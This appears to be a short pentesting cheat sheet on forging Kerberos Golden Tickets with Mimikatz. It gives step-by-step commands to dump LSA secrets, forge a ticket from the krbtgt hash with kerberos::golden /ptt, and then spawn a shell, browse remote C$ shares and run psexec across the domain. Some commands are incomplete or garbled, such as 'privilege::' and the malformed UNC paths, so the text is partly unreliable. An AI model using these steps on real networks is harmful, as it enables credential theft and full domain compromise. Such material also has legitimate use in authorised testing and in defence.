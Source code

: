 ```yaml
---
description: >-
  We can use this to access anything in the network if we have KTGT(KERBEROS
  TICKET GRANTING TICKET)
---
```


# Golden Tickets

RUN MIMIKATZ IN THE WINDOWS

then set the privilege mode to debug

```
privilege::
```

```
lsadump::lsa /inject /name:<account name>
```

Copy the SID of the domain the ntlm hash To generate a ticket

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

then in the mimikatz terminal create a golden ticket

```
kerberos::golden /User:<anyNameNeedNotToExist /domain:<Domain name> /sid:<the sid from above> /krbtgt:<hash> /id:500 /ptt
```

ptt- pass the ticket

to run

```
misc::cmd
```

Opens a terminal session

&#x20;To run anycommand against a user

```
<command or script> \\<user\
```

To ls&#x20;

```
dir \\user\$c
```

to open a terminal in that machine

```
psexec.exe \\user\ cmd.exe
```

